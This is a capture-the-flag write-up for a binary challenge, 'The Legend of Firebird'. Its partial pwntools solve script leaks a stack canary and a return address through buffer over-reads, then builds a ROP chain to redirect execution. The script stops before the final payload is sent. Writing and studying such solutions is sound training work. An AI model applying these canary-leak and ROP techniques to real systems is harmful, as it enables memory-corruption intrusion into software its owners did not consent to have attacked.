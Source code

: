 # The Legend of Firebird
Author: ZD, 650  
Binary  
Description  
Solves 2  

Oh no, UwU is stuck in a time loop that ends every 3 days, can you help him escape?

nc chal.firebird.sh 35037

[File](./file)

[Source](https://letmegooglethat.com/?q=How+to+reverse+engineer)

Solve script template

No libc provided (hint: Not 2.23)
## Solution:
```py
from pwn import * 

binary = "./program_patched"
p = process(binary)
p = remote("chal.firebird.sh", 35037)
elf = ELF(binary)
s = 'b * time_loop+234'
#gdb.attach(p, s)

libc = ELF("libc.so.6")
context.binary = binary

# first day
p.recvuntil(b"hours remaining\n")
p.send(b'A' * 25 )
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")
canary_bytes = output[24:32]
canary = u64(canary_bytes)
canary = canary & 0xffffffffffffff00  
print(hex(canary))
# Second day 
p.recvuntil(b"hours remaining\n")
p.send(b'B' * 24 + b'C' * 16) # 
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")
return_addr = output[40:46].ljust(8, b'\x00')
return_addr = u64(return_addr)

elf.address = return_addr - 0x1373 
timeloop_address = elf.sym['time_loop']

# Last day, trying to loop back

payload = flat(
    b'B' * 24, # padding to get to canary
    p64(canary),
    b'C' * 8, # padding to get to return address

    p64(elf.address + 0x000000000000101a),
    p64(elf.address + 0x000000000001403),
    p64(3),
    p64(timeloop_address)
)
p.recvuntil(b"hours remaining\n")
```